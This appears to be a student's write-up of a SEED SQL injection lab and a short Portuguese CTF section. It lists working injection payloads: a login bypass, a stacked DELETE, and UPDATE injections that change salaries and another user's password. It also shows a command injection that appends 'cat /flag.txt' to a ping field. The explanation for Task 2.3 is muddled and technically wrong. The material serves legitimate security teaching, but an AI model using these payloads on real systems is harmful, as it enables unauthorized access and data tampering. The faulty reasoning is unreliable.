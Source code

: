 ## Lab Environment
    - dockps
        ed7c62538f7f  mysql-10.9.0.6
        0dc3b8bf0785  www-10.9.0.5


## Lab Tasks

# Task 1: Get Familiar with SQL Statements

    - https://drive.google.com/file/d/1GZE7e5K6og2KzVIbffWSJs59_YHOtGaZ/view?usp=sharing 

# Task 2: SQL Injection Attack on SELECT Statement

    - Task 2.1: SQL Injection Attack from webpage
        - https://drive.google.com/file/d/1kGqLOi1kdBj_e0rOBxq-7kRs_rwH5w02/view?usp=sharing
        - https://drive.google.com/file/d/1hq-j5KMkxaKZH_tWNPGyRbPO-FKq05mM/view?usp=sharing 
        - The code and query are vulnerable because the input is not properly sanitized, user input and query get compiled and ran at the "same time". This is easily exploitable using a single quote to get out of query's input field and a "#" to comment the rest of the line
    
    - Task 2.2: SQL Injection Attack from command line
        - https://drive.google.com/file/d/1EEMadUpea_aKgnZ34YNAX5_G9JWRIVm-/view?usp=sharing
        - https://drive.google.com/file/d/1hnhaZ-fY-oh1ILCelVQV5fwa6fR-C7K3/view?usp=sharing
        - https://drive.google.com/file/d/1ub7xwSA4qMAxJIlkU1xN2nWfkXwlQDzE/view?usp=sharing
        - Same but via terminal (using curl) curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23' %27 is the single quote, %20 the space and %23 the #.
    
    - Task 2.3: Append a new SQL Statement
        - Tried this username: ' 1=1;Delete from credential where name='Ted';#
        - Result: https://drive.google.com/file/d/1i7fMuqVHKzzilF58RU_gCS_fgn6Ex8ht/view?usp=sharing
        - Motive: This was expected to fail, because this site has a countermeauser to prevent us from running two SQL statements in one attack. The unsafe_home.php file only allows one SQL statement in this attack. To change this we could enter a new line of code between lines 75 and 76 with this 'echo "$sql";'. This allows the code to tun one more SQL statement before the if clause on line 76, allowing us to delete what we wanted.

# Task 3: SQL Injection Attack on UPDATE Statement

    - Task 3.1: Modify your own salary
        - Step 1: https://drive.google.com/file/d/1TsOkVgfXRs7_MhNs69CnM2l85y8S56wW/view?usp=sharing
        - Step 2: https://drive.google.com/file/d/1HEL4EffKQDecJozZQuTawa-joZW4x8m4/view?usp=sharing  ( ',salary=70000 where EID=10000;# )
        - Step 3: https://drive.google.com/file/d/12xA4UbFF5p0rvPiNBabOx7Y8NZjxLuk5/view?usp=sharing 

    - Task 3.2: Modify other people' salary
        - https://drive.google.com/file/d/1urUsDSozwFWg-gzU16UWFL_Nn3_FrVbP/view?usp=sharing
        - https://drive.google.com/file/d/14L-J2hNiygkvfoUiwDbicvaX8_eG0Kyn/view?usp=sharing
    
    - Task 3.3: Modify other people' password
        - New password: https://drive.google.com/file/d/14L-J2hNiygkvfoUiwDbicvaX8_eG0Kyn/view?usp=sharing 
        - https://drive.google.com/file/d/1YG8IIBItkdnQl0PCtCeTR5_TBao3nznP/view?usp=sharing  ( ',password='2682d74b055524cc455c964baff1f236fc89f94e' where name='Boby';# )
        - https://drive.google.com/file/d/1tGKDjpbo9WPRersOXuJPbuT3yj6w0hIq/view?usp=sharing 
        - The password was successfully changed to the new password in the database.


## CTF8

    - Desafio 1
        - username: admin." ' or true--
        - password: true --
        - flag: flag{078e65ed99471886b1aab629b2666777}

    - Desafio 2
        - Que funcionalidades é que estão acessiveis a um utilizador sem este estar autenticado?
            Ver a velocidade da conexão à internet -"Check my network speed", obter um speedtest result e fazer ping a um host.

        - Das funcionalidade que identificaste e do feedback que tiveste da sua utilização, pensa como é que estas podem estar implementatadas no servidor. Será que estão a utilizar algum utilitário linux?
            Sim, para fazer ping a um host o servidor utiliza o comando linux "ping".

        - Se sim, que vulnerabilidades podem estar presentes na chamada deste utilitário?
            O código em php faz um exec('ping '. (..)) que podemos tentar modificar, utilizando as vulnerabilidades do exec.
        
        - Verifica se existe alguma vulnerabilidade nesta funcionalidade.
            Correr o comando: '8.8.8.8; cat /flag.txt' 

        - Identificada a vulnerabilidade, utiliza-a para aceder à flag que se encontra no ficheiro /flag.txt.
            flag: flag{06d2a537a9e4d1e3eaac309f67fad3c3} 
            



